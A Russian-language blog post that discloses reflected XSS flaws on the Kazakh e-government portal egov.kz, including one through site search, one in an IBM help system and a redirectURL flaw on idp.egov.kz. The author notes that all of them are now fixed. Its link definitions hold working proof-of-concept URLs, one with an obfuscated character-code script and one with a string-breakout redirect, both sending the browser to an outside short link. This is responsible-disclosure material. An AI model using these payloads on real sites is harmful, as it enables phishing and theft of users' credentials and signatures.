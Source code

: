 ```yaml
---
layout: post
title: "Уязвимость на сайте egov.kz (XSS)"
date: '2017-6-8T13:24:14+06:00'
categories: xss security
about: 'about.html'
---
```

Про эти проблемы я сообщил press@nitec.kz более года назад. Многие проблемы они устранили, но не всё. Думаю пришло время дисклозить.
<!--more-->

>**XSS** (cross site scripting) или межсайтовый скриптинг - это серьезная уязвимость. Простыми словами, на вашем сайте (без вашего 
разрешения) выполняется чужой код. То есть, кто-то может контролировать что делает или видит пользователь вашего сайта!

Очень важно, чтобы главный портал государственных услуг был без уязвимостей. XSS это еще одна возможность для мошенников производить фишинг атаки на пользователей. Ниже в посте есть видео кражи ЭЦП.

В посте описаны не все найденные уязвимости. Стоит отметить, что egov.kz отвечает на письма и исправляет проблемы. Но следующие XSS обещали исправить еще 31 Марта 2016 года.


+ Reflected XSS через Поиск - ~~не исправлено~~~ исправлено 14-06-2017

Обычно XSS на сайтах чаще можно найти через Search.
![image][img0]
 
Egov.kz не исключение. Вот результат такого запроса.
![image][img1]

**Proof of Concept**: [XSS через Поиск]


+ Reflected XSS через IBM Eclipse Help System - ~~не исправлено~~ исправлено 14-06-2017

Похоже, что egov.kz использует старый IBM WebSphere вперемешку с Drupal.
![image][img2]
![image][img3]

Для старого WebSphere есть [старый XSS]. Остается надеяться, что egov.kz устанавливает другие патчи на WebSphere.
![image][img4]

**Proof of Concept**: [XSS через IEHS]


+ XSS на idp.egov.kz - исправлено. 

Здесь параметр redirectURL не был обработан.
![image][img5]

На видео ниже, ЭЦП и пароль пользователя отправляются на localhost. Все работает по HTTPS.

<iframe src="https://player.vimeo.com/video/166616876" width="640" height="480" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

Все примеры выше выполняется в контексте javascript кода. То есть, XSS аудиторы современных браузеров бессильны. Кстати, не знаю зачем мошенникам пароли, ведь пароль всех ЭЦП **123456** :)

[XSS через Поиск]: http://egov.kz/wps/portal/!ut/p/b1/jY7LCsIwFES_qNxJLq3JMj7SBKVBKGizkSxECn1sSr_f2r3V2Q2cwwxFajItUEBKxXSnOKS5faWpHYfUfXosHjuGVHthEBiAr_VBq2vNJWMBmgUITtgy14xwVCd4lXNlL07iLP_z8SUGv_wbxRXZerACGxOVG_sn9bGz2mfmDbEtbmo!/dl4/d5/L2dBISEvZ0FBIS9nQSEh/pw/Z7_73028B1A003DC0AS22M7DL2003/act/id=0/p=from=0/p=lang=all/p=textSearch=x';document.write(String.fromCharCode(60,115,99,114,105,112,116,62,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,98,105,116,46,108,121,47,73,113,84,54,122,116,34,60,47,115,99,114,105,112,116,62));'/p=category=all/318769911448/-/
[старый XSS]: http://www.securityfocus.com/bid/54051/info
[XSS через IEHS]: http://egov.kz/wps/iehs/topic/com");}window.location.replace("//bit.ly/IqT6zt");//.htm
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png